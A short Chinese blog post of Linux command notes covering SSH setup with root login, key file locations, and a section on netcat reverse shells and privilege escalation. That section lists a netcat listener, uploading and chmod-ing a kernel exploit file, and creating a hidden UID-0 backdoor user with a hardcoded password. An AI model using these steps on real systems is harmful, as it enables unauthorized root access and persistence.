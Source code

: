```yaml
---
layout: post
title: "Linux 相关命令"
date: 2017-2-14

---
```

##SSH开启&开机自启动##

1.修改ssh_config文件。命令：```vim /etc/ssh/sshd_config```

2.将```#PasswordAuthentication no```的注释去掉，并且将```NO```修改为```YES```  //我的kali中默认	是yes

3.将```#PermitRootLogin yes```的注释去掉 //我的kali中默认去掉了注释

4.启动SSH服务，命令为：```/etc/init.d/ssh start``` // 或者service ssh start

5.验证SSH服务状态，命令为：```/etc/init.d/ssh status```

6.添加开机自启动 ```update-rc.d ssh enable``` 

   关闭则为：```update-rc.d ssh disabled```


---
##Linux RSA公私钥认证##

路径 ```/root/.ssh/authorized_keys```

```authorized_keys```  ```id_rsa```

---

##Linux下nc反弹&提权##
服务器上面执行 ```NC -vv -l -p （Port）```

上传exp ```2.6.32.exp```

用```ls -l``` 文件名 看权限 是否可执行 如果不能执行 可以```chmod -R 777 filename``` 给予执行权限

```useradd -u 0 -o -g root -G root xftp```

```echo "Admini111" | passwd --stdin xftp```

![image]（/images/nsec.png）

